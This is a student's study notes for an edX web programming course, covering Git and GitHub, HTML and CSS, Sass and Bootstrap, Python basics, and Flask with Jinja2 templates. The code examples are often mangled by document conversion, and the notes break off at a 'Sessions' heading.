<h1>Web Programming With JavaScript & Python 3 -- edX (cs50.harvard.edu)</h1>

> Watch each of the course&apos;s twelve lectures and submit each of the
> course&apos;s five projects:

1.  [Git](#Git)
2.  [HTML, CSS](#htmlCSS)
3.  [Flask](#Flask)
4.  [SQL](#SQL)
5.  [ORMs, APIs](#ORMsAPIs)
6.  [JavaScript](#JavaScript)
7.  [Front Ends](#FrontEnd)
8.  [Django](#Django)
9.  [Testing, CI/CD](#TestingCICD)
10. [GitHub, Travis CI](#GitHUbTravisCI)
11. [Scalability](#Scalability)
12. [Security](#Security)

1.  Git

> **Notes -- Lecture 0/1: Git**
>
> 
<!-- {width="1.6881080489938758in" > height="0.7055555555555556in"} -->
>

<h4 id="Git">Git</h4>

> [git-scm.com](https://git-scm.com/)
>
> Git is a version control system for tracking changes in computer files
> and coordinating work on those files among multiple people. It is
> primarily used for source code management in software development, but
> it can be used to keep track of changes in any set of files. As a
> distributed revision control system, it is aimed at speed, data
> integrity, and support for distributed, non-linear
> workflows.[**Wikipedia**](https://en.wikipedia.org/wiki/Git)
>
> **Original author(s):** Linus Torvalds (linux)
>
> **Developer(s):** Junio Hamano and others
>
> **Initial release:** 07, 2005
>

<h4>GitHub:</h4>

> GitHub is a code hosting platform for version control and
> collaboration. It lets you and others work together on projects from
> anywhere.
>
> Essentials include; repositories, branches, commits, and Pull
> Requests. You'll create your own Hello World repository and learn
> GitHub's Pull Request workflow, a popular way to create and review
> code.
>
> **Step 1. Create a Repository**
>
> A **repository** is usually used to organize a single project.
> Repositories can contain folders and files, images, videos,
> spreadsheets, and data sets -- anything your project needs. We
> recommend including a *README*, or a file with information about your
> project. GitHub makes it easy to add one at the same time you create
> your new repository. *It also offers other common options such as a
> license file.*
>
> Your hello-world repository can be a place where you store ideas,
> resources, or even share and discuss things with others.

**To create a new repository**

1.  In the upper right corner, next to your avatar or identicon,
    click and then select **New repository**.

2.  Name your repository hello-world.

3.  Write a short description.

4.  Select **Initialize this repository with a README**.

## **Step 2. Create a Branch**

> **Branching** is the way to work on different versions of a repository
> at one time.
>
> By default your repository has one branch named master which is
> considered to be the definitive branch. We use branches to experiment
> and make edits before committing them to master.
>
> When you create a branch off the master branch, you're making a copy,
> or snapshot, of master as it was at that point in time. If someone
> else made changes to the master branch while you were working on your
> branch, you could pull in those updates.
>
> This diagram shows:

-   The master branch

-   A new branch called feature (because we're doing 'feature work' on
    this branch)

-   The journey that feature takes before it's merged into master

> {width="6.694628171478565in"
> height="1.684825021872266in"}
>
> Have you ever saved different versions of a file? Something like:

-   story.txt

-   story-joe-edit.txt

-   story-joe-edit-reviewed.txt

> Branches accomplish similar goals in GitHub repositories.
>
> Here at GitHub, our developers, writers, and designers use branches
> for keeping bug fixes and feature work separate from
> our master (production) branch. When a change is ready, they merge
> their branch into master.

<h4>To create a new branch</h4>

1.  Go to your new repository hello-world.

2.  Click the drop down at the top of the file list that says **branch:
    master**.

3.  Type a branch name, readme-edits, into the new branch text box.

4.  Select the blue **Create branch** box or hit "Enter" on your
    keyboard.

## **Step 3. Make and commit changes**

> Bravo! Now, you're on the code view for your readme-edits branch,
> which is a copy of master. Let's make some edits.
>
> On GitHub, saved changes are called *commits*. Each commit has an
> associated *commit message*, which is a description explaining why a
> particular change was made. Commit messages capture the history of
> your changes, so other contributors can understand what you've done
> and why.

#### **Make and commit changes**

1.  Click the README.md file.

2.  Click the  pencil icon in the upper right corner of the file view to
    edit.

3.  In the editor, write a bit about yourself.

4.  Write a commit message that describes your changes.

5.  Click **Commit changes** button.

## **Step 4. Open a Pull Request**

> Nice edits! Now that you have changes in a branch off of master, you
> can open a *pull request*.
>
> Pull Requests are the heart of collaboration on GitHub. When you open
> a *pull request*, you're proposing your changes and requesting that
> someone review and pull in your contribution and merge them into their
> branch. Pull requests show *diffs*, or differences, of the content
> from both branches. The changes, additions, and subtractions are shown
> in green and red.
>
> As soon as you make a commit, you can open a pull request and start a
> discussion, even before the code is finished.
>
> By using GitHub's [&commat;mention
> system](https://help.github.com/articles/about-writing-and-formatting-on-github/#text-formatting-toolbar) in
> your pull request message, you can ask for feedback from specific
> people or teams, whether they're down the hall or 10 time zones away.
>
> You can even open pull requests in your own repository and merge them
> yourself. It's a great way to learn the GitHub flow before working on
> larger projects.

#### Open a Pull Request for changes to the README

## **Step 5. Merge your Pull Request**

> In this final step, it's time to bring your changes together --
> merging your readme-edits branch into the master branch.

1.  Click the green **Merge pull request** button to merge the changes
    into master.

2.  Click **Confirm merge**.

3.  Go ahead and delete the branch, since its changes have been
    incorporated, with the **Delete branch** button in the purple box.

> Create an account -- GitHub Repository

## GitWeb

> Now that you have basic read/write and read-only access to your
> project, you may want to set up a simple web-based visualizer. Git
> comes with a CGI script called GitWeb that is sometimes used for this.
>
> 
<!-- {width="4.222304243219598in" > height="2.756497156605424in"} -->

1.  [HTML,
    CSS](https://courses.edx.org/courses/course-v1:HarvardX+CS50W+Web/courseware/3b4d945d89eb40bcad81746770a81c3b/5611bbf00f2e4ed9a319fb38d1b584ce/)

Images

```
<!DOCTYPE html>
<html>
<head>
  <title>My Web Page!</title>
</head>
<body>
   <!- Leave out width so auto render 🡪
   <!- Leave out width so automatic 🡪
</body>
</html>
```

Tables;

```
<!DOCTYPE html>
<html>
<head>
  <title>Presidents</title>
  <style>
    table {
      border: 2px solid black;
      border-collapse: collapse;
      text-align: center;
      width: 50%;
    }
    th,td {
      border: 1px solid green;
      padding: 5px;
    }
    th {
      background-color:lightsalmon;
     }
  </style>
</head>
<body>
  <h1>Presidents</h1>
  <table>
    <tr>
      <th>First Name</th>
      <th>Last Name</th>
      <th>Years in Office</th>
    </tr>
    <tr>
      <td>George</td>
      <td>Washington</td>
      <td>1789-1797</td>
    </tr>
    <tr>
      <td>John</td>
      <td>Adams</td>
      <td>1797-1801</td>
    </tr>
  </table>
```

<h4>Form;</h4>

```
<!DOCTYPE html>
<html>
<head>
  <title>My Web Page!</title>
</head>
<body>
  <form>
    <input type="text" placeholder="Full Name" name="name">
    <button>Submit!</button>
  </form>
</body>
</html>
```

<h4>Document Object Model</h4>


<!-- {width="2.5625in" height="2.71875in"} -->

<h4>CSS -- Cascade Style Sheet</h4>

```
<!DOCTYPE html>
<html>
<head>
  <title>My Web Page!</title>
</head>
<body>
  <h1 style="color:blue;text-align:center;">Welcome to My Web Page!</h1>
  <p>Hello, world! This is a paragraph of text.</p>
  <p>This is another paragraph!</p>
</body>
</html>
```

<h5>Alternatively;</h5>

```
<head>
  <title>My Web Page!</title>
  <style>
    h1 {
      color: blue;
      text-align: center;
    }
  </style>
</head>
<body>
  <h1 style="color:blue;text-align:center;">Welcome to My Web Page!</h1>
  <p>Hello, world! This is a paragraph of text.</p>
  <p>This is another paragraph!</p>
</body>
</html>
```

<h5>Next with Stylesheet;</h5>

```
<html>
<head>
  <title>My Web Page!</title>
  <link rel="stylesheet" href="style.css">
</head>
<body>
  <h1>Welcome to My Web Page!</h1>
</body>
</html>
```

<h5>Therefore, create STYLES.CSS;</h5>

```
h1 {
  color: blue;
  text-align: center;
}
```

<h5>With div;</h5>

```
<head>
  <title>My Web Page!</title>
  <style>
    div {
      background-color: teal;
      width: 100px;
      height: 400px;
    }
  </style>
</head>
<body>
  <div>
    Hello, world!
  </div>
</body>
```

<h5>Now, font;</h5>

```
<style>
div {
  font-family: Arial, sans-serif;
  font-size: 28px;
  font-weight: bold;
}
</style>
```

<h5>And, border;</h5>

```
<style>
  div {
    border: 3px solid-blue;
  }
</style>
```

***Next with div, class (or '.' many) & id (or '#' unique);***

```
<style>
#top {
font-size: 36px;
}
#middle {
font-size: 24px;
}
#bottom {
font-size: 12px;
}
.name {
font-weight: bold;
}
</style>
</head>
<body>
  <div id="top" class="name"> // example of id and class (font weight: bold).
    This is the <span class="name">top<./span> of my web page.
  </div>
  <div id="middle">
    This is the <span class="name">middle</span> of my web page.
  </div>
  <div id="bottom">
    This is the <span class="name">bottom</span> of my web page.
  </div>
</body>
</html>
```

<h4>GitHub Pages;</h4>

Develop web and post there before the internet.

**Notes -- Lecture 1: More on Git**

<h4>More on Git;</h4>

<pre>$ Git Help</pre>

```
C:\\WINDOWS\\system32&gt;git help
usage: git &lbrack;--version] [--help] [-C <path>] [-c
<name>=<value>]

[--exec-path[=<path>]] [--html-path] [--man-path]
[--info-path]
[-p | --paginate | -P | --no-pager] [--no-replace-objects]
[--bare]

[--git-dir=<path>] [--work-tree=<path>]
[--namespace=<name>]

<command> [<args>]
```

**These are common Git commands used in various situations:**

<b>start</b> a working area (see also: git help tutorial)

<b>clone</b> Clone a repository into a new directory

<b>init</b> Create an empty Git repository or reinitialize an existing one
work on the current change (see also: git help everyday)

<b>add</b> Add file contents to the index

<b>mv</b> Move or rename a file, a directory, or a symlink

<b>reset</b> Reset current HEAD to the specified state

<b>rm</b> Remove files from the working tree and from the index

**examine the history and state (see also: git help revisions)**

<b>bisect</b> Use binary search to find the commit that introduced a bug

<b>grep</b> Print lines matching a pattern

<b>log</b> Show commit logs

<b>show</b> Show various types of objects

<b>status</b> Show the working tree status

**grow, mark and tweak your common history**

<b>branch List, create, or delete branches</b>

checkout Switch branches or restore working tree files commit Record changes to the repository
diff Show changes between commits, commit and working tree, etc merge 
Join two **or more development histories together**

```
#  rebase Reapply commits on top of another base tip
#  tag Create, list, delete or verify a tag object signed with GPG
# 
# **collaborate (see also: git help workflows)**
#  fetch Download objects and refs from another repository
#  pull Fetch from and integrate with another repository or a local branch
#  push Update remote refs along with associated objects
# 
# **'git help -a' and 'git help -g' list available subcommands and some**
# concept guides. See 'git help <command>' or 'git help <concept>'
# to read about a specific subcommand or concept.
# Lecture1 $ git add index.html // Plain vanilla web site with Hello world!
$ git commit -- m "Changed the body message"
$ git branch // shows master
$ git branch feature
$ git branch // shows feature and master
$ git checkout feature // switches to feature branch
$ git commit --am "Added a line to HTML vanilla" // add and commit at the same time
$ git log // shows master and feature branches and changes
$ git merge feature // merges feature branch with master (2 html's the same now)
```

<h5>git Remotes</h5>

Name of a version of the repository that resides somewhere else.
>
> Each remote has its' own
> branches.
<!-- {width="3.9117629046369204in" > height="2.227340332458443in"} -->
>
> git Forks
>
> Entirely different repository -- copy of original -- won't affect
> original
>
> $ Pull request -- merge to original version of repository -- for
> feedback -- review prior to merging.
>
> **HTML5 elements**
>
> New:
>
> <audio>
>
> <video>
>
> <datalist>
>
> See form.html
>
> **[CSS]**
>
> Style
>
> See: C:HTMLHarvard - edX - Python and JavaScriptsrc1.zip for
> source code examples.
>
> Pseudo-Class;
>
> When mouse hovers over this element, the color will change to orange.
>
> button:hover {
>
> background-color: orange;
>
> }
>
> Pseudo-Elements;
>
> 21d -- hex for right arrow.
>
> The following will put an arrow with "Click here " before any <a
> href="#">
>
> a::before {
>
> Content: "21d Click here: ";
>
> Font-weight: bold;
>
> }
>
> <li><a href="#">one link</a></li>
>
> 
<!-- {width="4.697916666666667in" > height="2.1041666666666665in"} -->
>
> **Responsive Design -- laptop, desktop, phone, etc**

-   viewport - see class notes (below)

-   Media Queries -- see class notes, media query (below)

-   Flexbox -- using viewport -- see class notes (below)

-   Grids -- see class notes (below)

-   Bootstrap -- see class notes (below)

-   Sass -- see class notes (below)

> Sass is an entirely new language built on top of CSS which gives it a
> little more power and flexibility when designing CSS stylesheets and
> allows for the generation of stylesheets in a programmatic way.
> Ultimately, Sass just makes writing CSS easier.
>
> One feature of Sass is variables, which are defined as so: &dollar;color:
> red;. Anywhere &dollar;color is passed as a value for a CSS property,
> e.g. color: &dollar;color, red will be used.
>
> Another feature is nesting, which is a more concise way to style
> elements which are related to other elements in a certain way.
>
> Adding a Path in Windows 10

# **Path**

> The PATH is an important concept when working on the command line.
> It&apos;s a list of directories that tell your operating system where to
> look for programs, so that you can just write script instead
> of /home/me/bin/script or C:\\Users\\Me\\bin\\script. But different
> operating systems have different ways to add a new directory to it:

1.  The first step depends which version of Windows you&apos;re using:

    -   If you&apos;re using Windows 8 or 10, press the Windows key, then
        search for and select &quot;System (Control Panel)&quot;.

    -   If you&apos;re using Windows 7, right click the &quot;Computer&quot; icon on
        the desktop and click &quot;Properties&quot;.

2.  Click &quot;Advanced system settings&quot;.

3.  Click &quot;Environment Variables&quot;.

4.  Under &quot;System Variables&quot;, find the PATH variable, select it, and
    click &quot;Edit&quot;. If there is no PATH variable, click &quot;New&quot;.

5.  Add your directory to the beginning of the variable value followed
    by ; (a semicolon). For example, if the value
    was C:\\Windows\\System32, change it
    to C:\\Users\\Me\\bin;C:\\Windows\\System32.

6.  Click &quot;OK&quot;.

7.  Restart your terminal.

> 
<!-- {width="3.983069772528434in" > height="1.5464566929133858in"} -->
>
> {width="3.8371555118110234in"
> height="2.9944870953630796in"}
>
> **[PIP Install -- too many steps;]**
>
> 
<!-- {width="7.125in" > height="3.7423611111111112in"} -->
>
> 
<!-- {width="3.7652537182852144in" > height="2.904834864391951in"} -->
>
> **Notes -- Lecture 2: HTML & CSS**

## **[More on Git]**

-   ˜Branching" is a feature of Git that allows a project to move in
    multiple different directions simultaneously. There is
    one master branch that is always usable, but any number of new
    branches can be created to develop new features. Once ready, these
    branches can then be merged back into master.

-   When working in a Git repository, HEAD refers to the current branch
    being worked on. When a different branch is checked out.
    the HEAD changes to indicate the new working branch.

-   When merging a branch back into master, there is the possibility for
    merge conflicts to arise. These can be resolved in the same way
    discussed in Lecture 0.

-   Some Git commands related to branching:

    -   git branch : list all the branches currently in a repository

    -   git branch &lt;name&gt; : create a new branch called name

    -   git checkout &lt;name&gt; : switch current working branch to name

    -   git merge &lt;name&gt; : merge branch name into current working
        branch (normally master)

-   Any version of a repository that is not stored locally on a device
    is called a ˜remote". ˜Origin" is used to refer to the remote from
    which the local repository was originally downloaded from.

-   Some Git commands related to remotes:

    -   git fetch : download all of the latest commits from a remote to
        a local device

    -   git merge origin/master : merge origin/master, which is the
        remote version of a repository normally downloaded with git
        fetch, into the local, preexesiting master branch

        -   Note that git pull is equivalent to running git fetch and
            then git merge origin/master

-   A Fork of a repository is an entirely separate repository which is
    copy of the original repository. A forked repository can be managed
    and modified like any other, all without affecting the original
    copy.

-   Open source projects are often developed using forks. There will be
    one central version of the software which contributors will fork and
    improve on, and when they want these changes to be merged into the
    central repository, they submit a ˜pull request".

-   A pull request can be made to merge a branch of a repository with
    another branch of the same repository or even a different
    repository. Pull requests are a good way to get feedback on changes
    from collaborators on the same project.

-   Note that forks and pull requests are both GitHub specific features.

## **[More on HTML]**

-   More useful HTML tags:

    -   &lt;a href=&quot;path/to/hello.html&quot;&gt;Click here!&lt;/a&gt; : link
        to hello.html, some URL, or some other content marked by id by
        passing #id to href

    -   &lt;input type=&quot;radio&quot;&gt; Option 1 : radio-button option for a
        form, where only 1 out of all the options may be selected &apos;&apos;&apos;
        html

-   There are lots of new useful tags with HTML5, but not all browsers,
    especially older browsers, will support these new features.
    Nonetheless, these new features can be used with increasing
    confidence that they will be rendered appropriately for a
    significant portion of users.

## **[More on CSS]**

-   CSS selectors are used to select different parts of a website to
    style in particular ways.

-   Some common CSS selectors:

-   Select h1 and h2
```
h1, h2 {
  color: red;
}
```
-   Select all li that are descendants of ol (not necessarily immediate
    descendants
```
ol li {
  color: red;
}
```
-   Select all li that are immediate children of ol
```
ol &gt; li {
  color: red;
}
```
-   Select all input fields with the attribute type=text
```
input&lbrack;type=text&rbrack; {
  background-color: red;
}
```
-   Select all buttons with the pseudoclass hover
```
button:hover {
  background-color: orange;
}
```
    -   A ˜pseudoclass" is a special state of an HTML element. In this
        example, the state is whether or not the cursor is hovering over
        a button.

-   Select all before pseudoelements of the element a
```
a::before {
  content: &quot;\\21d2 Click here: &quot;;
  font-weight: bold;
}
```
    -   A "pseudoelement" is a way to affect certain parts of an HTML
        element. In this example, the before selector
        applies content with its included styling before the contents of
        all a elements.

    -   \\21d2 is a hexadecimal value for a Unicode icon, which can
        represent symbols like emoji.

-   Select all selection pseudoelements of the element p
```
p::selection {
  color: red;
  background-color: yellow;
}
```
## **Responsive Design**

-   Responsive design is the idea that a website should look good
    regardless of the platform its viewed from.

-   One way we can do this is by using a ˜media query":

```
<style>
@media print {
  .screen-only {
    display: none;
  }
}
</style>
<body&gt;
<p class="screen-only">This will not appear when printed</p>
</body>
```
&commat;media is a media query, which means the following CSS will be
  applied only in certain situations, namely, when the webpage is
  being printed. .screen-only is a class selector which identifies
  what content we want to be print only
```
&commat;media (min-width: 500px) {
  body {
    background-color: red;
  }
}
&commat;media (max-width: 499px) {
  body {
    background-color: yellow;
  }
}
```
    -   When the width of the screen is at least 500px, the background
        color of body will be red, while if it is less than 499px, the
        background color of body will be yellow.

    -   In order to interact with the screen size, the following must be
        included in head: &lt;meta name=&quot;viewport&quot;
        content=&quot;width=device-width, initial-scale=1.0&quot;&gt;

        -   viewport is the visible area on which the screen is being
            displayed. content refers to the entire webpage the width of
            which is being set to device-width.

-   Another tool is **˜flexbox". Flexbox** allows for the reorganization
    of content based on the size of the viewport.
```
.container {
  display: flex;
  flex-wrap: wrap;
}
```
    -   By setting display: flex and flex-wrap: wrap, content will wrap
        vertically if necessary, so no content is lost when the width of
        the screen is shrunk.

-   A grid of content can be achieved in a similar fashion.
```
.grid {
  display: grid;
  grid-column-gap: 20px;
  grid-row-gap: 10px;
  grid-template-columns: 200px 200px auto;
}
```
    -   By setting display: grid, all the different characteristics of a
        grid layout can be used to format content. In particular, when
        defining grid-template-colummns, the final column can be set
        to auto, filling up however much screen space may be left. If
        multiple columns are set to auto, they will equally share the
        remaining space.

## **Bootstrap**

-   Bootstrap is a CSS library written to help make clean, responsive,
    and nice-looking websites without having to remember the gritty
    details about flexboxes or grids everytime a layout needs to be set
    up.

-   The only thing needed to use Bootstrap is by adding a single line
    which links Bootstrap's CSS stylesheet: &lt;link rel=&quot;stylesheet&quot;
    href=&quot;https://stackpath.bootstrapcdn.com/bootstrap/4.1.1/css/bootstrap.min.css&quot;
    integrity=&quot;sha384-WskhaSGFgHYWDcbwN70/dfYBj47jz9qbsMId/iRN3ewGhXQFZCSftd1LZCfmhktB&quot;
    crossorigin=&quot;anonymous&quot;&gt;.

-   Bootstrap's CSS will make everything look a little cleaner and more
    modern, but its real power comes with its layout system. Bootstrap
    uses a column-based model where every row in a website is divided
    into 12 individual columns, and different elements can be alloted a
    different number of columns to fill.

-   Bootstrap's columns and rows are referenced in HTML
    with class=&quot;row&quot; and class=&quot;col-3&quot; attributes, where the number
    after col- is the number of columns the element should use.

    -   Elements can take up a different number of columns based on the
        size of the screen with attributes like class=&quot;col-lg-3
        col-sm-6. On a small screen, 6 columns will be used, but in a
        large screen, 3 columns will be used. If another row has to be
        added, Bootstrap will do so automatically. This is a much easier
        alternative to something like flexbox (Bootstrap does so behind
        the scenes).

-   Bootstrap has a whole host of other pretty components which can
    easily be applied by simply adding the appropriate class attribute
    to an element. See [Bootstrap's
    documentation](https://getbootstrap.com/docs/4.1/components/alerts/) for
    an extensive list.

## **Sass**

-   Sass is an entirely new language built on top of CSS which gives it
    a little more power and flexibility when designing CSS stylesheets
    and allows for the generation of stylesheets in a programmatic way.
    Ultimately, Sass just makes writing CSS easier.

-   In order to use Sass, it must first
    be [installed](http://sass-lang.com/install). Once installed, we can
    execute sass style.scss style.css to compile our Sass
    file style.scss into sass.css, which can actually be linked to and
    interpreted by an HTML file.

    -   If recompiling gets annoying, sass &minus;-watch
        style.scss:style.css to automatically
        recompile style.scss as style.css whenever style.scss is
        modified. Additionally, many website deployment systems, like
        GitHub Pages, have built in support for Sass. For example, if
        an .scssfile is pushed to GitHub, GitHub Pages will compile it
        automatically.

-   One feature of Sass is variables, which are defined as so: &dollar;color:
    red;. Anywhere &dollar;color is passed as a value for a CSS property,
    e.g. color: &dollar;color, red will be used.

-   Another feature is nesting, which is a more concise way to style
    elements which are related to other elements in a certain way.
```
div {
  font-size: 18px;
  p {
    color: blue;
  }
  ul {
   color: green;
  }
}
```
    -   In this example, all ps inside divs will be have color: blue,
        but also font-size: 18px, while uls inside divs will have color:
        green instead, but still also font-size: 18px.

-   One more useful feature is inheritance, which is similar to the
    object-oriented concept. Sass's inheritance allows for slight
    tweaking of a general style for different components.
```
%message {
  font-family: sans-serif;
  font-size: 18px;
  font-weight: bold;
}

.specificMessage {
  &commat;extend %message;
  background-color: green;
}
```
    -   %message defines a general pattern that can be inherited in
        other style definitions using the @extend %message syntax. In
        addition, other style properties can be added.

First more start new keep working

Commit Changes changes feature on new feature

**Branching:**

Take a project in multiple directions.

{width="3.6562576552930883in"
height="1.842739501312336in"}

{width="3.625800524934383in"
height="1.653167104111986in"}

{width="3.5893667979002624in"
height="1.5795319335083116in"}

1.  Flask

> **Notes -- Lecture 2: Python & Flask**

# **[Python and Flask]**

## **[Python]**

{width="3.9656649168853892in"
height="1.1533672353455817in"}

-   In this class, Python 3.6 will be used. For those unfamiliar, Python
    is an interpreted language that will be used in the context of this
    class to generate dynamic websites and web applications.

-   Some basic Python syntax:

    -   Print a string to the screen:

    -   print(&quot;Hello, world!&quot;)

    -   Print a format string (variable names enclosed with {} will be
        replaced by variable values)

    -   print(f&quot;Hello, {name}!&quot;)

    -   Set variable name to the user input returned by input()

    -   name = input()

    -   Conditional statement:

    -   if x &gt; 0:

    -   print(&quot;x is positive&quot;)

    -   elif x &lt; 0:

    -   print(&quot;x is negative&quot;)

    -   else:

    -   print(&quot;x is zero&quot;)

        -   elif and else blocks are optional.

        -   Note that indentation in Python is not stylistic, but rather
            is used to demarcate blocks of code. In this example, the
            Python interpreter knows where the conditional if block ends
            and the elif block begins because of the changes in
            indentation.

### Data Types

-   int : integer value

-   float : floating point value

-   str : text string

-   bool : boolean value (True or False)

-   None : empty value

-   Note that Python is a weakly typed language.

### Sequences

-   Strings:

-   name = &quot;Alice&quot;

-   print(name&lbrack;0&rbrack;)

    -   Strings are justs sequence of characters, and can be indexed as
        such.

-   Tuples:

-   coordinates = (10.0, 20.0)

-   print(coordinates&lbrack;1&rbrack;)

    -   Tuples are immutable collections of values under a single name,
        which can be indexed positionally.

-   Lists:

-   names = &lbrack;&quot;Alice&quot;, &quot;Bob&quot;, &quot;Charlie&quot;&rbrack;

-   print(names&lbrack;2&rbrack;)

    -   Lists are mutable collections of values under a single name,
        which can be indexed positionally.

    -   Indexing out of range raises a Python "exception". In this case,
        an IndexError, because there is no fourth value in names for
        Python to return.

-   Note that any sequence in Python can contain any number of data
    types.

-   Sets:

-   s = set()

-   s.add(1)

-   s.add(3)

-   s.add(5)

    -   Sets are unordered collection of unique items. Because they are
        unordered, they cannot be indexed.

    -   s is a set, an unordered collection of unique items

-   Dictionaries:

-   ages = {&quot;Alice&quot;: 22, &quot;Bob&quot;: 27}

-   print(ages&lbrack;&quot;Alice&quot;&rbrack;)

-   ages&lbrack;&quot;Alice&quot;&rbrack; += 1

    -   Dictionaries (or dicts) are like lists, except that they are
        unordered and their values are indexed by keys.

    -   The += operator increments the left-hand side by the right-hand
        side.

### Loops

> for i in range(5):
>
> print(i)

-   For-loops iterate over their bodies a limited number of times. In
    this case, the number of iterations is set by range(5).

-   range(5) returns the sequence of numbers starting at 0 through 4.
    Each value is passed to i once, resulting in the loop running a
    total of 5 times. i is normally referred to as an iterator variable.

> for name in names:
>
> print(name)

-   This for-loop iterates over names, which is a list. Every value in
    the list is assigned, in order, to the iterator name once.

### Functions

-   Python has built-in functions, such as print() and input(), but
    Python also allows for the creation of user-defined functions

-   def square(x):

-   return x &ast; x

    -   This is a function called square, which takes a single
        argument x, and returns the value x &ast; x.

    -   Like loops, the body of a function must be indented.

    -   for i in range(10):

    -   print(&quot;{} squared is {}&quot;.format(i, square(i)))

        -   This loop, which prints out the results of square with a
            range of arguments, using an older method for format
            strings.

-   Trying to call a function that hasn't been defined will raise
    a NameError exception.

### Modules

-   Modules are separate .py files of code, often written by others,
    used in a new file without rewriting all the old code again. Using
    modules allows, for example, the use of functions across a program
    larger than a single file.

-   Assuming the square function in the earlier example was saved
    in functions.py, adding this line atop a new module will allow for
    the use of square there as well.

-   from functions import square

-   If, for example, functions.py also included the example loop
    demonstration of the square function, that loop would be executed
    every time square was imported from functions, because the Python
    interpreter reads through the entire functions.py file. To remedy
    this, code that should only run when their containing file is run
    directly should be encapsulated in a function, called, for
    example, main. After, the following should be appended:

-   if &lowbar;&lowbar;name&lowbar;&lowbar; == &quot;&lowbar;&lowbar;main&lowbar;&lowbar;&quot;:

-   main()

> This should be interpreted as saying "if this file is currently being
> run", execute main.

### Classes

-   A Python class can be thought of as a way to define a new, custom
    Python data type, somewhat analogous to defining a custom function.

-   This creates a new class called Point:

-   class Point:

-   def &lowbar;&lowbar;init&lowbar;&lowbar;(self, x, y):

-   self.x = x

-   self.y = y

    -   The &lowbar;&lowbar;init&lowbar;&lowbar; function (method) is a special function that
        defines the information needed when a new Point is
        created. self is always required, which refers to
        the Point being created, while x and y are its coordinates.

    -   self.x and self.y actually do the work of
        creating x and y attributes for the Point and assigning them the
        values passed to &lowbar;&lowbar;init&lowbar;&lowbar;.

-   By convention, class names tend to start with a capital letter.

-   This instantiates a new Point with x = 3 and y = 5:

-   p = Point(3, 5)

    -   When this line is run, the &lowbar;&lowbar;init&lowbar;&lowbar; function of
        the Point class is automatically run.

-   To access the x attribute of p, use dot notation:

-   print(p.x)

## 

## **Flask**

-   HTTP (Hypertext Transfer Protocol) is the system the internet uses
    to interact and communicate between computers and servers. When a
    URL is entered into a browser, an HTTP request is sent to a server,
    which interprets the request and sends appropriate HTTP response,
    which, if all goes as expected, contains the requested information
    to be displayed by the web browser.

-   Having already begun to design websites, the next step is to write
    the code that takes care of the server-side processing: receiving
    and interpreting requests, and generating a response for the user.

-   Flask a microframework written in Python that makes it easy to get a
    simple web application up and running with some features that can be
    useful in the development process.

### A Simple App (for ex: app.py or application.py as with lecture)

-   Flask code is generally stored inside application.py, and might look
    like so:

-   from flask import Flask &pound; Import the class &apos;Flask&apos; from the
    &apos;flask&apos; module, written by someone else.

-   

-   app = Flask(&lowbar;&lowbar;name&lowbar;&lowbar;) &pound; Instantiate a new web application
    called &apos;app&apos;, with &apos;&lowbar;&lowbar;name&lowbar;&lowbar;&apos; representing the current file

-   

-   &commat;app.route(&quot;/&quot;) &pound; A decorator; when the user goes to the route
    &apos;/&apos;, exceute the function immediately below

-   def index():

-   return &quot;Hello, world!&quot;

    -   

> {width="3.0729166666666665in"
> height="2.5729166666666665in"}

-   Flask is designed in terms of routes. A route is the part of the URL
    that determines which page is being requested. The route for the
    default page is simply /.

-   To start up a flask application, run flask run in the directory
    where application.py is located, with flask being the web server.
    Flask will print out the URL the server is running on and where the
    website can be accessed at.

-   flask run produces an error, try running export
    FLASK_APP=application.py to make sure it knows to look
    for application.py as the web server.

> {width="3.9002165354330707in"
> height="1.0674278215223096in"}
>
> {width="3.875in"
> height="1.5833333333333333in"}
>
> {width="3.83211832895888in"
> height="1.4975021872265968in"}

### Fancier Flask and Jinja2

> &commat;app.route(&quot;/&lt;string:name&gt;&quot;)
>
> def hello(name):
>
> return f&quot;Hello, {name}!&quot;

-   When any string is entered as a route, that will be stored as name,
    which is can then be used inside the decorated function.

-   Since Python code is rendering the website, anything Python is
    capable of can be used. For example, name can be capitalized before
    it's displayed:

> name = name.capitalize()

-   HTML can also be used inside the return value:

> return f&quot;&lt;h1&gt;Hello, {name}!&lt;/h1&gt;&quot;.

-   Inline HTML isn't that useful, though. Separate HTML files can be
    used like so:

> from flask import Flask
>
> app = Flask(&lowbar;&lowbar;name&lowbar;&lowbar;)
>
> &commat;app.route(&quot;/&quot;)
>
> def index():
>
> return render_template(&quot;index.html&quot;)

-   index.html and any other template files should be stored in a
    directory named templates.

-   Variables can be defined as Python variables in application.py and
    used in HTML templates by passing them in as arguments
    to render_template. These templates are rendered using a separate
    templating language called Jinja2:

-   In application.py:

> headline = &quot;Hello, world!&quot;
>
> return render_template(&quot;index.html&quot;, headline=headline)

-   In index.html:

```
> <h1>{{ headline }}</h1>
```

-   Jinja2 also allows for conditional statements:

```
> 
>
> <h1>Yes! Happy New Year!</h1>
>
> 
>
> <h1>No.</h1>
>
> 

-   Loops:

> 
>
> <li>{{ name }}</li>
>
> {$ endfor %}

-   names should be something that can be looped over, like a Python
    list, for example.

-   If there are multiple routes on the Flask server, then one route can
    link to another as so:

> <a href="{{ url_for('more') }}">See more...</a>

-   more is the name of a function associated with a route.

#### Template Inheritance

-   In order to cut down on repetitive HTML amongst many different
    pages, Jinja2 has a feature called "template inheritance" that uses
    the idea of blocks to organize content. For examples, have a look
    at layout.html and index.html in the inheritance/ directory of the
    same source code.

-   Everything in the heading block is placed where indicated
    in layout.html, and same for body.

#### Forms

-   With Flask and Jinja2, the results from HTML forms can now be
    actually stored and used.

-   An HTML form might look like this:

-   <form action="" method="post">

-   <input type="text" name="name" placeholder="Enter Your
    Name">

-   <button>Submit</button>

-   <form>

    -   The action attribute lists the route that should be "notified"
        when the form is submitted. In this case, it's the URL for a
        function called hello.

    -   The method attribute is how the HTTP request to submit the form
        should be made. The default method is get, which is what
        browsers make when a URL is entered. When data is being
        submitted, however, post should be used.

    -   The name attribute of the input, while not new, is now relevant
        because it can be referenced when the form is submitted.

-   The Python code to process this form might look like this:

> from flask import Flask, render_template, request
>
> # some lines omitted here
>
> @app.route("/hello", methods=["POST"])
>
> def hello():
>
> name = request.form.get("name") # take the request the user made,
> access the form,
>
> # and store the field called `name` in a Python variable also
> called `name`
>
> return render_template("hello.html", name=name)

-   The route /hello is the same hello listed in the Jinja2 code. This
    route can also accept the POST method, which is how the form's data
    is being submitted. If any other method is used to access this
    route, a Method Not Allowed error will be raised.

    -   If there are multiple request methods that should be allowed,
        which method is being used can be checked with request.method,
        which will be equal to, for example, &quot;GET&quot; or &quot;POST&quot;.

#### Sessions

